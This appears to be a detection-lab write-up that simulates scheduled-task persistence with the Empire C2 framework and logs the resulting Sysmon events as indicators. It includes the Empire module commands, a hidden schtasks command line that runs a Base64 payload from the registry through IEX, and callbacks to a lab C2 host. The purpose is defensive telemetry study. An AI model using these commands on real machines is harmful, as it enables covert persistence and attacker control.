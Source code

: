 # Persistence Scheduled Task

## Goal 
| Simulation # | Stager Option                           |
| ------------ | --------------------------------------- |
| 1            | usermodule persistence/userland/schtask |

## Technical Context
### Assumption
* Attacker is a low-priv user 
* The C2 connection has established 
  
### Simulation 1
This attack modify the schedule task to main the persistence in a low-priv environment. And the low-priv user simulate the reboot.

#### Payload Generation
```bash
(Empire: agents) > agents

[*] Active agents:

 Name     La Internal IP     Machine Name      Username                Process            PID    Delay    Last Seen            Listener
 ----     -- -----------     ------------      --------                -------            ---    -----    ---------            ----------------

 WMXUN8D2 ps 192.168.254.47  WIN-40TITGP9BI7   WIN-40TITGP9BI7\victim  powershell         920    1/0.0    2020-12-04 22:47:38  http

(Empire: WMXUN8D2) > usemodule persistence/userland/schtasks
(Empire: powershell/persistence/userland/schtasks) > set IdleTime 1
(Empire: powershell/persistence/userland/schtasks) > set Listener http
(Empire: powershell/persistence/userland/schtasks) > execute
[>] Module is not opsec safe, run? [y/N] y
[*] Tasked WMXUN8D2 to run TASK_CMD_WAIT
[*] Agent WMXUN8D2 tasked with task ID 1
[*] Tasked agent WMXUN8D2 to run module powershell/persistence/userland/schtasks
(Empire: powershell/persistence/userland/schtasks) > 
SUCCESS: The scheduled task "Updater" has successfully been created.
Schtasks persistence established using listener http stored in HKCU:\Software\Microsoft\Windows\CurrentVersion\debug with Updater idle trigger on 1.
```

#### Attack Begin

1. Execute the persistence module on empire

##### Raw Sysmon Event


```xml
<Event xmlns='http://schemas.microsoft.com/win/2004/08/events/event'><System><Provider Name='Microsoft-Windows-Sysmon' Guid='{5770385F-C22A-43E0-BF4C-06F5698FFBD9}'/><EventID>1</EventID><Version>5</Version><Level>4</Level><Task>1</Task><Opcode>0</Opcode><Keywords>0x8000000000000000</Keywords><TimeCreated SystemTime='2020-12-04T15:19:36.388822900Z'/><EventRecordID>25212</EventRecordID><Correlation/><Execution ProcessID='1568' ThreadID='1936'/><Channel>Microsoft-Windows-Sysmon/Operational</Channel><Computer>WIN-40TITGP9BI7</Computer><Security UserID='S-1-5-18'/></System><EventData><Data Name='RuleName'>-</Data><Data Name='UtcTime'>2020-12-04 15:19:36.386</Data><Data Name='ProcessGuid'>{84453EAB-5388-5FCA-D8DA-0A0000000000}</Data><Data Name='ProcessId'>3492</Data><Data Name='Image'>C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe</Data><Data Name='FileVersion'>6.1.7600.16385 (win7_rtm.090713-1255)</Data><Data Name='Description'>Windows PowerShell</Data><Data Name='Product'>Microsoft® Windows® Operating System</Data><Data Name='Company'>Microsoft Corporation</Data><Data Name='OriginalFileName'>PowerShell.EXE</Data><Data Name='CommandLine'>"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"  -Win Hidden -enc //5120bytes long payload//</Data><Data Name='CurrentDirectory'>C:\Windows\system32\</Data><Data Name='User'>WIN-40TITGP9BI7\victim</Data><Data Name='LogonGuid'>{84453EAB-5384-5FCA-8C47-0A0000000000}</Data><Data Name='LogonId'>0xa478c</Data><Data Name='TerminalSessionId'>2</Data><Data Name='IntegrityLevel'>Medium</Data><Data Name='Hashes'>MD5=852D67A27E454BD389FA7F02A8CBE23F,SHA256=A8FDBA9DF15E41B6F5C69C79F66A26A9D48E174F9E7018A371600B866867DAB8,IMPHASH=F2C0E8A5BD10DBC167455484050CD683</Data><Data Name='ParentProcessGuid'>{84453EAB-5386-5FCA-95AE-0A0000000000}</Data><Data Name='ParentProcessId'>3228</Data><Data Name='ParentImage'>C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe</Data><Data Name='ParentCommandLine'>"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -c "$x=$((gp HKCU:Software\Microsoft\Windows\CurrentVersion Debug).Debug);powershell -Win Hidden -enc $x"</Data></EventData></Event>
```

##### Key Indicator

| Field        | Value                                                                                          | Comments |
| ------------ | ---------------------------------------------------------------------------------------------- | -------- |
| EventID      | 1                                                                                              |          |
| process_exec | powershell.exe                                                                                    |          |
| process_id   | 3492                                                                                           |          |
| parent_process_id   | 3228                                                                                           |  the explorer.exe when OS boot up |
| cmdline      | "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"  -Win Hidden -enc //5120bytes long payload//|          |


C2 Callback
```xml
<Event xmlns='http://schemas.microsoft.com/win/2004/08/events/event'><System><Provider Name='Microsoft-Windows-Sysmon' Guid='{5770385F-C22A-43E0-BF4C-06F5698FFBD9}'/><EventID>3</EventID><Version>5</Version><Level>4</Level><Task>3</Task><Opcode>0</Opcode><Keywords>0x8000000000000000</Keywords><TimeCreated SystemTime='2020-12-04T15:19:41.115550900Z'/><EventRecordID>25217</EventRecordID><Correlation/><Execution ProcessID='1568' ThreadID='1952'/><Channel>Microsoft-Windows-Sysmon/Operational</Channel><Computer>WIN-40TITGP9BI7</Computer><Security UserID='S-1-5-18'/></System><EventData><Data Name='RuleName'>-</Data><Data Name='UtcTime'>2020-12-04 15:19:39.108</Data><Data Name='ProcessGuid'>{84453EAB-5388-5FCA-D8DA-0A0000000000}</Data><Data Name='ProcessId'>3492</Data><Data Name='Image'>C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe</Data><Data Name='User'>WIN-40TITGP9BI7\victim</Data><Data Name='Protocol'>tcp</Data><Data Name='Initiated'>true</Data><Data Name='SourceIsIpv6'>false</Data><Data Name='SourceIp'>192.168.254.47</Data><Data Name='SourceHostname'>WIN-40TITGP9BI7</Data><Data Name='SourcePort'>49167</Data><Data Name='SourcePortName'>-</Data><Data Name='DestinationIsIpv6'>false</Data><Data Name='DestinationIp'>192.168.254.46</Data><Data Name='DestinationHostname'>-</Data><Data Name='DestinationPort'>80</Data><Data Name='DestinationPortName'>http</Data></EventData></Event>
```

##### Key Indicator

| Field             | Value                                                                         | Comments |
| ----------------- | ----------------------------------------------------------------------------- | -------- |
| EventID           | 3                                                                             |          |
| process_exec      | powershell.exe                                                                |          |
| process_id   | 3492                                                                                           |          |
| dest_ip           | 192.168.254.46 | my test lab c2                                                     |
| dest_port         | 80             | depends on the empire listener type, in this simulation i set http |

User execute the payload 

```xml
<Event xmlns='http://schemas.microsoft.com/win/2004/08/events/event'><System><Provider Name='Microsoft-Windows-Sysmon' Guid='{5770385F-C22A-43E0-BF4C-06F5698FFBD9}'/><EventID>1</EventID><Version>5</Version><Level>4</Level><Task>1</Task><Opcode>0</Opcode><Keywords>0x8000000000000000</Keywords><TimeCreated SystemTime='2020-12-07T13:55:58.443741200Z'/><EventRecordID>55965</EventRecordID><Correlation/><Execution ProcessID='1568' ThreadID='1936'/><Channel>Microsoft-Windows-Sysmon/Operational</Channel><Computer>WIN-40TITGP9BI7</Computer><Security UserID='S-1-5-18'/></System><EventData><Data Name='RuleName'>-</Data><Data Name='UtcTime'>2020-12-07 13:55:58.443</Data><Data Name='ProcessGuid'>{84453EAB-346E-5FCE-0E91-A50400000000}</Data><Data Name='ProcessId'>3620</Data><Data Name='Image'>C:\Windows\System32\schtasks.exe</Data><Data Name='FileVersion'>6.1.7601.17514 (win7sp1_rtm.101119-1850)</Data><Data Name='Description'>Manages scheduled tasks</Data><Data Name='Product'>Microsoft® Windows® Operating System</Data><Data Name='Company'>Microsoft Corporation</Data><Data Name='OriginalFileName'>sctasks.exe</Data><Data Name='CommandLine'>"C:\Windows\system32\schtasks.exe"  /Create /F /SC ONIDLE /I 1 /TN Updater /TR "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NonI -W hidden -c \"IEX ([Text.Encoding]::UNICODE.GetString([Convert]::FromBase64String((gp HKCU:\Software\Microsoft\Windows\CurrentVersion debug).debug)))\""</Data><Data Name='CurrentDirectory'>C:\Windows\system32\</Data><Data Name='User'>WIN-40TITGP9BI7\victim</Data><Data Name='LogonGuid'>{84453EAB-5384-5FCA-8C47-0A0000000000}</Data><Data Name='LogonId'>0xa478c</Data><Data Name='TerminalSessionId'>2</Data><Data Name='IntegrityLevel'>Medium</Data><Data Name='Hashes'>MD5=97E0EC3D6D99E8CC2B17EF2D3760E8FC,SHA256=6DCE7D58EBB0D705FCB4179349C441B45E160C94E43934C5ED8FA1964E2CD031,IMPHASH=6B4559CA4C2EC47B1D1D5FB43FFA83AD</Data><Data Name='ParentProcessGuid'>{84453EAB-5388-5FCA-D8DA-0A0000000000}</Data><Data Name='ParentProcessId'>3492</Data><Data Name='ParentImage'>C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe</Data><Data Name='ParentCommandLine'>"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"  -Win Hidden -enc //5120 bytes payload//</Data></EventData></Event>
```


##### Key Indicator

| Field             | Value          | Comments |
| ----------------- | -------------- | -------- |
| EventID           | 1              |          |
| process_exec      | schtasks.exe |          |
| process_id        | 3620           |          |
| parent_process_id | 3492            |          |
| cmdline           |  "C:\Windows\system32\schtasks.exe" /Create /F /SC ONIDLE /I 1 /TN Updater /TR "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NonI -W hidden -c \"IEX ([Text.Encoding]::UNICODE.GetString([Convert]::FromBase64String((gp HKCU:\Software\Microsoft\Windows\CurrentVersion debug).debug)))\""              |          |

```xml
<Event xmlns='http://schemas.microsoft.com/win/2004/08/events/event'><System><Provider Name='Microsoft-Windows-Sysmon' Guid='{5770385F-C22A-43E0-BF4C-06F5698FFBD9}'/><EventID>11</EventID><Version>2</Version><Level>4</Level><Task>11</Task><Opcode>0</Opcode><Keywords>0x8000000000000000</Keywords><TimeCreated SystemTime='2020-12-07T13:55:58.459341700Z'/><EventRecordID>55966</EventRecordID><Correlation/><Execution ProcessID='1568' ThreadID='1936'/><Channel>Microsoft-Windows-Sysmon/Operational</Channel><Computer>WIN-40TITGP9BI7</Computer><Security UserID='S-1-5-18'/></System><EventData><Data Name='RuleName'>T1053</Data><Data Name='UtcTime'>2020-12-07 13:55:58.459</Data><Data Name='ProcessGuid'>{84453EAB-5333-5FCA-CF3E-010000000000}</Data><Data Name='ProcessId'>848</Data><Data Name='Image'>C:\Windows\system32\svchost.exe</Data><Data Name='TargetFilename'>C:\Windows\System32\Tasks\Updater</Data><Data Name='CreationUtcTime'>2020-12-07 13:55:58.459</Data></EventData></Event>
```

##### Key Indicator

| Field        | Value                             | Comments |
| ------------ | --------------------------------- | -------- |
| EventID      | 11                                |          |
| process_exec | svchost.exe                       |          |
| process_id   | 848                               |          |
| file_path    | C:\Windows\System32\Tasks\Updater |          |
| file_name    | Updater                           |          |

Constantly C2 callback - Loop


```xml
<Event xmlns='http://schemas.microsoft.com/win/2004/08/events/event'><System><Provider Name='Microsoft-Windows-Sysmon' Guid='{5770385F-C22A-43E0-BF4C-06F5698FFBD9}'/><EventID>1</EventID><Version>5</Version><Level>4</Level><Task>1</Task><Opcode>0</Opcode><Keywords>0x8000000000000000</Keywords><TimeCreated SystemTime='2020-12-07T14:36:46.382531300Z'/><EventRecordID>56262</EventRecordID><Correlation/><Execution ProcessID='1568' ThreadID='1936'/><Channel>Microsoft-Windows-Sysmon/Operational</Channel><Computer>WIN-40TITGP9BI7</Computer><Security UserID='S-1-5-18'/></System><EventData><Data Name='RuleName'>-</Data><Data Name='UtcTime'>2020-12-07 14:36:46.382</Data><Data Name='ProcessGuid'>{84453EAB-3DFE-5FCE-5345-B10400000000}</Data><Data Name='ProcessId'>2684</Data><Data Name='Image'>C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe</Data><Data Name='FileVersion'>6.1.7600.16385 (win7_rtm.090713-1255)</Data><Data Name='Description'>Windows PowerShell</Data><Data Name='Product'>Microsoft® Windows® Operating System</Data><Data Name='Company'>Microsoft Corporation</Data><Data Name='OriginalFileName'>PowerShell.EXE</Data><Data Name='CommandLine'>C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NonI -W hidden -c "IEX ([Text.Encoding]::UNICODE.GetString([Convert]::FromBase64String((gp HKCU:\Software\Microsoft\Windows\CurrentVersion debug).debug)))"</Data><Data Name='CurrentDirectory'>C:\Windows\system32\</Data><Data Name='User'>WIN-40TITGP9BI7\victim</Data><Data Name='LogonGuid'>{84453EAB-5384-5FCA-8C47-0A0000000000}</Data><Data Name='LogonId'>0xa478c</Data><Data Name='TerminalSessionId'>2</Data><Data Name='IntegrityLevel'>Medium</Data><Data Name='Hashes'>MD5=852D67A27E454BD389FA7F02A8CBE23F,SHA256=A8FDBA9DF15E41B6F5C69C79F66A26A9D48E174F9E7018A371600B866867DAB8,IMPHASH=F2C0E8A5BD10DBC167455484050CD683</Data><Data Name='ParentProcessGuid'>{84453EAB-3DFE-5FCE-9943-B10400000000}</Data><Data Name='ParentProcessId'>3116</Data><Data Name='ParentImage'>C:\Windows\System32\taskeng.exe</Data><Data Name='ParentCommandLine'>taskeng.exe {933E83A7-CB3C-4BED-A0EB-4211B4C602A6} S-1-5-21-2892772840-4280103526-640991184-1003:WIN-40TITGP9BI7\victim:Interactive:[2]</Data></EventData></Event>
```


##### Key Indicator

| Field        | Value                             | Comments |
| ------------ | --------------------------------- | -------- |
| EventID      | 1                               |          |
| process_exec | powershell.exe                       |          |
| process_id   | 2684                               |          |
| parent_process_id| 3116||
| parent_process | taskeng.exe {933E83A7-CB3C-4BED-A0EB-4211B4C602A6} S-1-5-21-2892772840-4280103526-640991184-1003:WIN-40TITGP9BI7\victim:Interactive:[2]||
| cmdline    | C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NonI -W hidden -c "IEX ([Text.Encoding]::UNICODE.GetString([Convert]::FromBase64String((gp HKCU:\Software\Microsoft\Windows\CurrentVersion debug).debug)))" |          |

C2 Connection Established
```xml
<Event xmlns='http://schemas.microsoft.com/win/2004/08/events/event'><System><Provider Name='Microsoft-Windows-Sysmon' Guid='{5770385F-C22A-43E0-BF4C-06F5698FFBD9}'/><EventID>3</EventID><Version>5</Version><Level>4</Level><Task>3</Task><Opcode>0</Opcode><Keywords>0x8000000000000000</Keywords><TimeCreated SystemTime='2020-12-07T14:36:51.015688400Z'/><EventRecordID>56263</EventRecordID><Correlation/><Execution ProcessID='1568' ThreadID='1952'/><Channel>Microsoft-Windows-Sysmon/Operational</Channel><Computer>WIN-40TITGP9BI7</Computer><Security UserID='S-1-5-18'/></System><EventData><Data Name='RuleName'>-</Data><Data Name='UtcTime'>2020-12-07 14:36:49.425</Data><Data Name='ProcessGuid'>{84453EAB-3DFE-5FCE-5345-B10400000000}</Data><Data Name='ProcessId'>2684</Data><Data Name='Image'>C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe</Data><Data Name='User'>WIN-40TITGP9BI7\victim</Data><Data Name='Protocol'>tcp</Data><Data Name='Initiated'>true</Data><Data Name='SourceIsIpv6'>false</Data><Data Name='SourceIp'>192.168.254.47</Data><Data Name='SourceHostname'>WIN-40TITGP9BI7</Data><Data Name='SourcePort'>53619</Data><Data Name='SourcePortName'>-</Data><Data Name='DestinationIsIpv6'>false</Data><Data Name='DestinationIp'>192.168.254.46</Data><Data Name='DestinationHostname'>-</Data><Data Name='DestinationPort'>80</Data><Data Name='DestinationPortName'>http</Data></EventData></Event>
```


##### Key Indicator

| Field             | Value                                                                         | Comments |
| ----------------- | ----------------------------------------------------------------------------- | -------- |
| EventID           | 3                                                                             |          |
| process_exec      | powershell.exe                                                                |          |
| process_id   | 2684                                                                                           |          |
| dest_ip           | 192.168.254.46 | my test lab c2                                                     |
| dest_port         | 80             | depends on the empire listener type, in this simulation i set http |
